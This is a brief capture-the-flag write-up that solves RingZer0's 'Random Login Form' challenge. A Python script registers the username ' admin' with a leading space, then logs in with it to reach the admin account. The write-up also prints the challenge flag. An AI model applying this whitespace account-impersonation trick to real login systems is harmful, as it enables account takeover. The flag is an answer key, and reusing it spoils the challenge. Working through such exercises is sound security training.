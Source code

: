 <h1>Random Login Form</h1>
<h3>Description</h3>
<p>http://challenges.ringzer0ctf.com:10171/</p>
<h3>Solution</h3>

```python3
import requests

s = requests.Session()
url = "http://challenges.ringzer0ctf.com:10171/"
data = {"new":" admin","new_password":"1234","submit":"Register"}
res = s.post(url,data=data).text
data = {"username":" admin","password":"1234"}
res = s.post(url,data=data).text
print(res)
```
<p>Payload : &lt;space&gt;admin == admin</p>

<h3>Flag</h3>
<pre>
FLAG-0Kg64o8M9gPQfH45583Mc0jc3u
</pre>
